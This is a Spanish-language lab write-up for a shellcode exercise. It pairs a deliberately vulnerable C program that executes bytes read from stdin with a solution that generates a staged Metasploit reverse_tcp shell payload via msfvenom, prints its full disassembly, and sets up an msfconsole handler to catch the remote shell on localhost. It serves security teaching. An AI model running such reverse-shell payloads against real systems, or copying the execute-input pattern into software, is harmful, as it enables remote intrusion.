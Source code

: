 # Shellcode-02

**Objetivo**: Lograr, sin modificar el código fuente ni el binario, que el siguiente programa se conecte a localhost:16000 y reciba y procese comandos como si fuese una terminal remota. Se recomienda utilizar las herramientas de la suite de Metasploit.

```c
// shellcode-02.c

#include <sys/mman.h>
#include <stdint.h>
#include <unistd.h>

int main(int argc, char **argv) {
  uint8_t buffer[256];
    
  // Leemos hasta 256 bytes de la entrada estándar.
  read(STDIN_FILENO, buffer, 256);
    
  // Haremos ejecutable al buffer usando mprotect.
  // Primero obtenemos el tamaño de página para alinear la dirección del buffer.
  long psize = sysconf(_SC_PAGESIZE);
    
  // Hacemos al buffer ejecutable.
  mprotect((void*)((uint64_t)&buffer & ~(psize-1)), 256, 7);
    
  // Ejecutamos el buffer.
  ((void (*)(void))&buffer)();
}
```



## Solución

El código es el mismo de [shellcode-01](../shellcode-01). La idea entonces es proveer un shellcode que realice la conexión y que provea la shell. Si bien programar dicho shellcode podría resultar no trivial, podemos resolver el problema fácilmente utilizando **msfvenom**, una herramienta de la suite de Metasploit. Dicha utilidad nos permite exportar shellcode paramétrico en distintos formatos.

El primer paso para utilizar msfvenom es entonces instalar el framework Metasploit (versión community). Para instalarlo se recomienda seguir las instrucciones en el [repositorio oficial](https://github.com/rapid7/metasploit-framework). Suponiendo que el framework ya ha sido instalado, procedemos como se indica a continuación.



**1. Listamos los payloads disponibles para Linux x64**

El payload es la parte del exploit que concreta las acciones que el atacante quiere lograr ejecutar en el sistema objetivo. Se podría decir que el objetivo final del exploit es ejecutar el payload. En el modelo de Metasploit, los payloads se tratan en forma modular; es decir, los exploits de Metasploit suelen estar diseñados para funcionar con varios payloads diferentes. Podemos listar algunos de los payloads disponibles mediante el siguiente comando:

```bash
msfvenom --list payloads | grep linux/x64
```

![payloads](img/payloads.png)

El que utilizaremos concretamente es `linux/x64/shell/reverse_tcp`. Al ejecutarse el payload, el proceso objetivo se conectará a una dirección que nosotros indiquemos (definiendo los parámetros del payload) y proveerá una shell (i.e. una línea de comandos) a través del canal.



**2. Listamos las opciones de configuración del payload seleccionado**

```bash
msfvenom -p linux/x64/shell/reverse_tcp --list-options
```

![options](img/options.png)

Observamos que debemos definir obligatoriamente los parámetros LHOST y LPORT. El primero indica la dirección a la cuál deberá conectarse el sistema objetivo cuando se ejecute el payload. El segundo indica el puerto. El primero por defecto está vacío, y el segundo tiene valor 4444. Los valores que debemos definir nosotros son, respectivamente, localhost y 16000.



**3. Exportamos el payload**

```bash
msfvenom -p linux/x64/shell/reverse_tcp LHOST=localhost LPORT=16000 -f raw
```

![shellcode](img/shellcode.png)

En este caso estamos exportando los datos binarios del payload. Si pensamos integrar el payload en algún script podemos exportarlo en alguno de los formatos disponibles. Para listarlos usamos

```bash
msfvenom --list formats
```

Por ejemplo, si planeamos integrar el shellcode a un script en Ruby, podemos escribir

```bash
msfvenom -p linux/x64/shell/reverse_tcp LHOST=localhost LPORT=16000 -f ruby
```

![ruby-format](img/ruby-format.png)



**4. Utilizamos el shellcode**

Contamos ahora con un archivo shellcode.bin que contiene nuestro payload. Si nos resulta relevante, podemos analizar el shellcode en assembly utilizando objdump:

```bash
objdump -b binary -M intel -D -m i386:x86-64 shellcode.bin
```

```
   0:	48 31 ff             	xor    rdi,rdi
   3:	6a 09                	push   0x9
   5:	58                   	pop    rax
   6:	99                   	cdq    
   7:	b6 10                	mov    dh,0x10
   9:	48 89 d6             	mov    rsi,rdx
   c:	4d 31 c9             	xor    r9,r9
   f:	6a 22                	push   0x22
  11:	41 5a                	pop    r10
  13:	b2 07                	mov    dl,0x7
  15:	0f 05                	syscall 
  17:	48 85 c0             	test   rax,rax
  1a:	78 52                	js     0x6e
  1c:	6a 0a                	push   0xa
  1e:	41 59                	pop    r9
  20:	56                   	push   rsi
  21:	50                   	push   rax
  22:	6a 29                	push   0x29
  24:	58                   	pop    rax
  25:	99                   	cdq    
  26:	6a 02                	push   0x2
  28:	5f                   	pop    rdi
  29:	6a 01                	push   0x1
  2b:	5e                   	pop    rsi
  2c:	0f 05                	syscall 
  2e:	48 85 c0             	test   rax,rax
  31:	78 3b                	js     0x6e
  33:	48 97                	xchg   rdi,rax
  35:	48 b9 02 00 3e 80 7f 	movabs rcx,0x100007f803e0002
  3c:	00 00 01 
  3f:	51                   	push   rcx
  40:	48 89 e6             	mov    rsi,rsp
  43:	6a 10                	push   0x10
  45:	5a                   	pop    rdx
  46:	6a 2a                	push   0x2a
  48:	58                   	pop    rax
  49:	0f 05                	syscall 
  4b:	59                   	pop    rcx
  4c:	48 85 c0             	test   rax,rax
  4f:	79 25                	jns    0x76
  51:	49 ff c9             	dec    r9
  54:	74 18                	je     0x6e
  56:	57                   	push   rdi
  57:	6a 23                	push   0x23
  59:	58                   	pop    rax
  5a:	6a 00                	push   0x0
  5c:	6a 05                	push   0x5
  5e:	48 89 e7             	mov    rdi,rsp
  61:	48 31 f6             	xor    rsi,rsi
  64:	0f 05                	syscall 
  66:	59                   	pop    rcx
  67:	59                   	pop    rcx
  68:	5f                   	pop    rdi
  69:	48 85 c0             	test   rax,rax
  6c:	79 c7                	jns    0x35
  6e:	6a 3c                	push   0x3c
  70:	58                   	pop    rax
  71:	6a 01                	push   0x1
  73:	5f                   	pop    rdi
  74:	0f 05                	syscall 
  76:	5e                   	pop    rsi
  77:	5a                   	pop    rdx
  78:	0f 05                	syscall 
  7a:	48 85 c0             	test   rax,rax
  7d:	78 ef                	js     0x6e
  7f:	ff e6                	jmp    rsi
```



En el ejercicio shellcode-01 lo que habíamos hecho era simplemente pasar el shellcode por entrada estándar para lograr la ejecución del mismo. En este caso, sin embargo, ésto no será suficiente. Resulta que el payload que seleccionamos (`linux/x64/shell/reverse_tcp`) es un payload en etapas. La primera etapa de ejecución (el código que exportamos) lo que hace es establecer una conexión a localhost:16000 y, en vez de ejecutar pasos adicionales (e.g. devolver una shell), se queda esperando por código que le indica cómo continuar (la etapa 2).

Lo que debemos preparar entonces es un handler que esperará la conexión a localhost:16000 y, cuando la reciba, enviará por el socket la etapa 2 del payload. Por supuesto, considerando que se trata de un payload de Metasploit, sería razonable que el framework sea capaz de encargarse de todo el asunto. Efectivamente, podemos usar un handler, como se muestra a continuación.

Primero debemos abrir msfconsole en una terminal:

```
msfconsole
```

Luego ejecutamos los siguientes comandos:

```
use exploit/multi/handler
set payload linux/x64/shell/reverse_tcp
set LHOST localhost
set LPORT 16000
```

Escribimos entonces

```
exploit
```

y tendremos nuestro listener en localhost:16000 esperando por la conexión de la etapa 1, listo para enviar la etapa 2 cuando se establezca la conexión.

![listener](img/listener.png)



Ahora sí, si ejecutamos

```bash
gcc shellcode-02.c -o shellcode-02 && ./shellcode-02 < shellcode.bin
```

Observaremos que podemos escribir comandos en la terminal de msfconsole:

![shell](img/shell.png)

Con esto logramos obtener efectivamente una shell remota. Si un atacante lograra de alguna forma inyectar shellcode en un sistema ajeno, podría fácilmente obtener una shell que le permitiría ejecutar comandos como si fuese un usuario local.



## Lecturas adicionales

[1] Rapid7, *How to use msfvenom*.<br/>https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom

[2] Offensive Security, *Metasploit Unleashed*.<br/>https://www.offensive-security.com/metasploit-unleashed/
